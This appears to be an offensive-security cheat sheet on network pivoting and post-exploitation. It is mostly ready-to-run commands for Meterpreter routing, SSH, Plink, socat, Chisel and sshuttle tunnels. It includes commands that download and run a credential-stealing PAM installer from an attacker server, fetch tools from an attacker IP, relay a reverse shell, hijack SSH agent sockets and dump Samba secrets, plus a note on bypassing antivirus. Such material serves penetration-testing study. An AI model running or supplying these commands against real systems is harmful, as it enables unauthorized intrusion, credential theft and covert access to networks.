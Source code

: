 # Meterpreter
#### Route
* * `meterpreter > run autoroute -s 10.2.31.0/24`
    </br> or </br>
* * `route add <10.10.10.0> <255.255.255.0> <session-ID>`
* background meterpreter
* `msf6 > use auxiliary/scanner/portscan/tcp`
* `use auxiliary/server/socks_proxy`
* configure it according with `cat /etc/proxychains.conf`
* `run/exploit` socks_proxy
* in linux host use `proxychains nmap -sT ...`
#### Port forward
* `use auxiliary/scanner/portscan/tcp` - portscan (after running autoroute)
* `meterpreter> portfwd add -l <local_port> -p <target_port> -r <target_IP>`
    * `meterpreter> portfwd list` - check port forwarding list
    * in linux host, run `nmap <local_port>`

# Manual tactics
#### Port Forwarding - SSH
* `ssh -4 -L 8000:127.0.0.1:3306 sysadmin@demo.ine.local` - forward target port _3306_ to attackers local port _8000_
    *  `-4` - use IPv4 only
*  `ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN`
    *  existing access on _172.16.0.5_
    *  forwards target's (_172.16.0.10) HTTP traffic through existing access _172.16.0.5_
    *  accessible on _localhost:8000_ as attacker machine
    *  `-f` - backgrounds the shell immediately
    *  `-N` don't execute commands, only set up connection

#### Proxies - SSH
* `ssh -D 1337 user@172.16.0.5 -fN`
    * combined with `proxychains`
 
#### Reverse connections
1. generate new ssh keys: `ssh-keygen`
2. copy content of _.pub_ file and paste it on attacker's machine in `~/.ssh/authorized_keys`
3. copy `command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty` at the beginning of `~/.ssh/authorized_keys`
4. copy attacker's private ssh key on target's system
5. `ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN` - connect from the victim back to attacker with a reverse port forward

#### Reverse proxy - SSH
1. same step as above except 5.
2. `ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN`- from the victim

## Tools
### Plink - Windows
https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html
1. transport `plink.exe` to victim
2. move public key in `~/.ssh/authorized_keys`
3. convert the generated _keyfile_
    *  `sudo apt install putty-tools`
    *  `puttygen KEYFILE -o OUTPUT_KEY.ppk`
4. `cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N`

### Socat
* set up encrypted traffic
* bypassing AV might require custom compilation
* https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat - Linux static binaries
* https://sourceforge.net/projects/unix-utils/files/socat/1.7.3.2/socat-1.7.3.2-1-x86_64.zip/download - Windows static binaries
1. copy binary to target: `curl ATTACKING_IP/socat -o /tmp/socat && chmod +x /tmp/socat-USERNAME`
#### Reverse shell relay
2. attacking box: `sudo nc -lvnp 443`
3. compromised server: `./socat tcp-l:8000 tcp:ATTACKING_IP:443 &`
#### Port forwarding
__Easy__

2. compromised server: `./socat tcp-l:33060,fork,reuseaddr tcp:<target-IP>:3306 &`
    * port _33060_ on victim is redirected to _target-IP_ port _3306_

__Quiet__

2. attacking machine: `socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &`
3. compromised server: `./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &`
4. target accessible back on attacking machine on _localhost:8000_

### Chisel
https://github.com/jpillora/chisel/releases
* `chisel client|server --help`
* configure `proxychains` according to details bellow
#### Reverse SOCKS proxy
1. attacking machine: `./chisel server -p LISTEN_PORT --reverse &`
2. compromise host: `./chisel client ATTACKING_IP:LISTEN_PORT R:socks &`

#### Forward SOCKS proxy
1. compromised host: `./chisel server -p LISTEN_PORT --socks5`
2. attacking machine: `./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks`

#### Remote port forward
1. attacking machine: `./chisel server -p LISTEN_PORT --reverse &`
2. compromised host: `./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &`
3. connect on the attacker machine on `127.0.0.1:LOCAL_PORT`

#### Local port forward
1. compromised host: `./chisel server -p LISTEN_PORT`
2. attacking machine: `./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT`

### Shuttle - Linux
https://github.com/sshuttle/sshuttle
* `sudo apt install sshuttle`
* `sshuttle -r username@address subnet`
    * `sshuttle -r user@172.16.0.5 172.16.0.0/24`
        * _172.16.0.5_ - compromised host
        * _172.16.0.0/24_ - network to pivot into
* `sshuttle -r user@172.16.0.5 172.16.0.0/24 -x 172.16.0.5`
    * `-x 172.16.0.5` - if the compromised host is part of the target network, this host needs to be __excluded__
* `sshuttle -r username@address -N`
    * `-N` - determine network automatically based on compromised server's routing table
* `sshuttle -r user@address --ssh-cmd "ssh -i KEYFILE" SUBNET`
    * `--ssh-cmd "ssh -i KEYFILE"` - use keyfile to connect to compromised host


> [!IMPORTANT]
> * when route is activated and exploiting other hosts through msf pivoting, `reverse_tcp` doesn't work
> * use `bind_tcp` payloads 

# Linux
* __SSH session hijacking__
    * requires **active** SSH session on the target
    * requires **root** 
    * `ps aux | grep sshd` - determine SSH process ID
    * `grep SSH_AUTH_SOCK /proc/<PID>/environ`
    * `SSH_AUTH_SOCK=/tmp/ssh-XXXX/agent.XXX ssh-add -l` - hijack target ssh-agent socket
    * `ssh remotesystem -l <victim>` - log into remote system as victim
* __SSH - stealing credentials__
    * malicious PAM module
    * https://github.com/mthbernardes/sshLooter
    * on attacking machine: edit _install.sh_ and _looter.py_ pointing _url_ variable to a server under attacket control to log POST requests
    * on compromised machine: `curl http://attacker-server/install.sh | bash`
* __Samba secrets__
    * `tdbdump /var/lib/samba/private/secrets.tdb`
    * https://medium.com/@br4nsh/from-linux-to-ad-10efb529fae9

# Local Techniques
#### Local Port forward
* `ssh -L <local port to listen on>:<remote machine>:<remote port> <username>@<ssh-server>`

## Cool resources
https://book.hacktricks.xyz/tunneling-and-port-forwarding


